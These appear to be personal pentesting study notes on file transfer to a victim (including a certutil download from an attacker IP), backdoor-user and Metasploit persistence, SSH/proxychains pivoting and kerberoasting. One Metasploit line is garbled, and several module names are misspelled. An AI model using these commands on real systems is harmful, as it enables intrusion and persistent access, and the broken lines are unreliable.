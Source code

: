 # File transfer
==**One important thing is to transfer files between the victim and the attacker so we can use different tools**==

## Certutil
```bash
certutil.exe -urlcache -f http://IP/file
```


## HTTP python
```bash
python -m SimpleHTTPServer 80
```


In case the don't work we can use FTP

## FTP 
It works in linux and windows.

We can easily run on the attacker:
```bash
python -m pyftpdlib 21
```

On the victim we can run:
```bash
ftp IP
```

## Linux
In linux we can run `wget`

## Metasploit
We can also use the upload or download features of metasploit.



# Maintaining access

**==The idea is to maintain the access on the victim in order to have access in the next days.==**

<mark style="background: #BBFABBA6;">One of the most used strategy is to add a user.</mark>

## Add user
```bash
net user hacker password123 /add
```

In this case we are adding a user in Active Directory.


## Metasploit
**==We can use the persistant script in this way:==**
```bash
run persistance -h

use exploit/windows/local/persistance

## or in case

use exploit/windows/local/regiWe can use the persistant script in this way:stry_persistance
```
- we are opening a port in the machine but it is very very dangerous


In other hand we could run scheduled tasks:
```bash
run scheduleme

## or 
run schtaskabuse
```



# Pivoting 
==**Let's imagine we compromised a machine and this machine gives us access to two network interfaces.**==

Now imagine that these two interfaces share another one that was not accessible before to us.

**==So we use the first machine to compromise the one not directly accessible.==**

So what we can do is to setup a proxy


### Idea
we access in ssh to a machinwe we compromised:
- ![[Pasted image 20241221215410.png]]

So in this machine we can see two interfaces:
- ![[Pasted image 20241221215517.png]]

From our machine we ping `10.10.10.5` but we don't obtain any response.

So let's create a proxy and pivot to the new victim.

## Proxychain
So we start to cat the `conf` file of proxychain
```bash
cat /etc/proxychains4.conf
```
- here we can see:
- ![[Pasted image 20241221220151.png]]

This is what we need to use to blind the connection to the port 9050.

So what we do is to use ssh and to redirect th etraffic to the victim:
```bash
ssh -f -N -D PROXYCHAIN_PORT root@PIVOT_VICTIM_IP
```
- ![[Pasted image 20241221220309.png]]
- `-f` goes on background 
- `-N` means we don't want to execute remote commands
- `-D` this is to bind the connection to the port `9050`


At this point using `proxychains` we can run commands to reach the final victim:
```
proxychains nmap -p- FINAL_VICTIM_IP
```
- ![[Pasted image 20241221220544.png]]
- ![[Pasted image 20241221221221.png]]

Remember to use `-sT` because sometimes there are problems.

One useful command for hacking active directory is:
```bash
proxychains GetUserSPNs.py DOMAIN/username:PASSWORD -dc-ip 10.10.10.255 -request
```


We can also use firefox with the proxy:
```bash
proxychains firefox
```

## SSHUTTEL
Another tool is `sshuttle`

To install it we can use:
```bash
sudo pip install sshuttle
```

In this case we can connect using:
```bash
sshuttle -r username@VICTIM_IP FINAL_NETWORK_VICTIM --ssh-cmd "ssh -i identity_file"
```
- ![[Pasted image 20241221221927.png]]
-  trough the user on `10.10.155.5` we want to connect to the network `10.10.10.0/24` trough ssh with the identity file


In this case we can avoid to use proxychains in front every command and just type the command on the attacker machine:
- ![[Pasted image 20241221221911.png]]

## Chisel
Another tool we can use is chisel (find it on github).


# CLEAN UP
**==We have to make the victim clean and remove everything we have added or modified.==**

Make the system/network as it was when we entered:
- <mark style="background: #BBFABBA6;">remove executables, scripts, and files</mark>
- <mark style="background: #BBFABBA6;">remove malwares, rootkits and added user accounts</mark>
- <mark style="background: #BBFABBA6;">set settings back to original configuration</mark>

